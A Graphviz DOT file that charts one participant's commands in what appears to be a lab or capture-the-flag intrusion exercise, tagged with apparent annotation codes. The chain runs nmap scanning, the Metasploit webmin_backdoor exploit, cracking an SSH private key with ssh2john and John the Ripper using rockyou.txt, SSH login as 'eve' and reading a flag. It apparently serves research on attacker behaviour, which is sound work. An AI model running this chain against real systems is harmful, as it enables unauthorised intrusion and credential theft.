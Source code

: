 // creating graph for user: 73
digraph {
	node [shape=box]
	0 [label="nmap -A 172.18.1.5 M0 "]
	3 [label="msfconsole M2 "]
	4 [label="search webmin 1.920 M3 "]
	6 [label="use exploit/unix/webapp/webmin_backdoor M8 "]
	7 [label="show options M5 "]
	8 [label="set TARGETURI=172.18.1.5:10000 A6 "]
	9 [label="set TARGETURI 172.18.1.5:10000 A6 "]
	12 [label="set TARGETURI / A6 "]
	13 [label="set RHOST 172.18.1.5 A6 "]
	15 [label="set LHOST 0.0.0.0 M6 "]
	27 [label="ls A10 "]
	29 [label="ls A10 "]
	30 [label="ls A10 "]
	31 [label="cat ssh2john.py A1 A9 A11 A12 A14 A16 A17 "]
	32 [label="python ssh2john.py M13 "]
	36 [label="ls A10 "]
	37 [label="python ssh2john.py rsa_d A14 A16 "]
	38 [label="python ssh2john.py rsa_d > john_rsa A14 A16 "]
	39 [label="john john_rsa A14 "]
	40 [label="john rsa_d A14 "]
	41 [label="john john_rsa A14 "]
	42 [label="python ssh2john.py /tmp.k > rsa2 A14 A16 "]
	43 [label="cat rsa_d A1 A9 A11 A12 A17 "]
	44 [label="john ---h A14 "]
	45 [label="john -h A14 "]
	46 [label="ls A10 "]
	47 [label="ls Documents/m A10 "]
	48 [label="ls Documents/ A10 "]
	49 [label="ls Documents/ -laR A10 "]
	50 [label="ls A10 "]
	51 [label="john john_rsa --wordlist /usr/share/wordlists/rockyou.txt M14 "]
	53 [label="ls A10 "]
	55 [label="ls A10 "]
	56 [label="ls fasttrack.txt A10 "]
	57 [label="ls -l A10 "]
	61 [label="head rockyou.txt A9 A11 A12 A17 "]
	63 [label="ls A10 "]
	75 [label="less rockyou.txt A9 A11 A12 A17 "]
	77 [label="ls A10 "]
	84 [label="python ssh2john.py r.txt > rsa3 A16 "]
	91 [label="less rockyou.txt A9 A11 A12 A17 "]
	96 [label="python ssh2john.py /tmp/id_rsa hash A16 "]
	97 [label="python ssh2john.py /tmp/id_rsa > hash A16 "]
	102 [label="john --wordlist=all.lst hash A10 "]
	110 [label="ls A10 "]
	113 [label="ls A10 "]
	119 [label="cat /tmp/id_rsa M12 "]
	120 [label="python ssh2john.py /tmp/id_rsa A16 "]
	121 [label="ssh-add /tmp/id_rsa A16 "]
	122 [label="ssh-add id_rsa A16 "]
	124 [label="ls -la A10 "]
	125 [label="python ssh2john.py id_rsa > hash A16 "]
	134 [label="ssh-add id_rsa A16 "]
	135 [label="ssh eve@10.1.17.4 M16 "]
	138 [label="ls A10 "]
	139 [label="ls -a A10 "]
	144 [label="ls A10 "]
	146 [label="ls A10 "]
	147 [label="cat flag A1 A9 A11 A17 "]
	148 [label="cat flag.txt M17 "]
	0 -> 3 [constraint=false]
	3 -> 4 [constraint=false]
	4 -> 6 [constraint=false]
	6 -> 7 [constraint=false]
	7 -> 8 [constraint=false]
	8 -> 9 [constraint=false]
	9 -> 12 [constraint=false]
	12 -> 13 [constraint=false]
	13 -> 15 [constraint=false]
	15 -> 27 [constraint=false]
	27 -> 29 [constraint=false]
	29 -> 30 [constraint=false]
	30 -> 31 [constraint=false]
	31 -> 32 [constraint=false]
	32 -> 36 [constraint=false]
	36 -> 37 [constraint=false]
	37 -> 38 [constraint=false]
	38 -> 39 [constraint=false]
	39 -> 40 [constraint=false]
	40 -> 41 [constraint=false]
	41 -> 42 [constraint=false]
	42 -> 43 [constraint=false]
	43 -> 44 [constraint=false]
	44 -> 45 [constraint=false]
	45 -> 46 [constraint=false]
	46 -> 47 [constraint=false]
	47 -> 48 [constraint=false]
	48 -> 49 [constraint=false]
	49 -> 50 [constraint=false]
	50 -> 51 [constraint=false]
	51 -> 53 [constraint=false]
	53 -> 55 [constraint=false]
	55 -> 56 [constraint=false]
	56 -> 57 [constraint=false]
	57 -> 61 [constraint=false]
	61 -> 63 [constraint=false]
	63 -> 75 [constraint=false]
	75 -> 77 [constraint=false]
	77 -> 84 [constraint=false]
	84 -> 91 [constraint=false]
	91 -> 96 [constraint=false]
	96 -> 97 [constraint=false]
	97 -> 102 [constraint=false]
	102 -> 110 [constraint=false]
	110 -> 113 [constraint=false]
	113 -> 119 [constraint=false]
	119 -> 120 [constraint=false]
	120 -> 121 [constraint=false]
	121 -> 122 [constraint=false]
	122 -> 124 [constraint=false]
	124 -> 125 [constraint=false]
	125 -> 134 [constraint=false]
	134 -> 135 [constraint=false]
	135 -> 138 [constraint=false]
	138 -> 139 [constraint=false]
	139 -> 144 [constraint=false]
	144 -> 146 [constraint=false]
	146 -> 147 [constraint=false]
	147 -> 148 [constraint=false]
	rankdir=LR
}
